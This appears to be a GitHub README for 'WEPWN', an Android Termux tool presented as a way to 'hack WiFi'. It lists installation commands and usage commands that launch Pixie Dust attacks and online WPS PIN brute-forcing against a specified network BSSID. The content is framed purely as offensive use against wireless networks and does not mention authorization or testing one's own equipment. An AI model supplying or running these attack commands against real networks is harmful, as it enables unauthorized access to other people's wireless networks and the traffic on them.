



<h1 align="center">WEPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"></p>

#### Cracked

<p align="center"></p>

#### Autostart if failed 

<p align="center"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wepwn
cd wepwn
chmod +x wepwn.py
```
#### Help : `sudo python wepwn.py --help`
#### Example : `sudo python wepwn.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wepwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wepwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wepwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@ => Meh
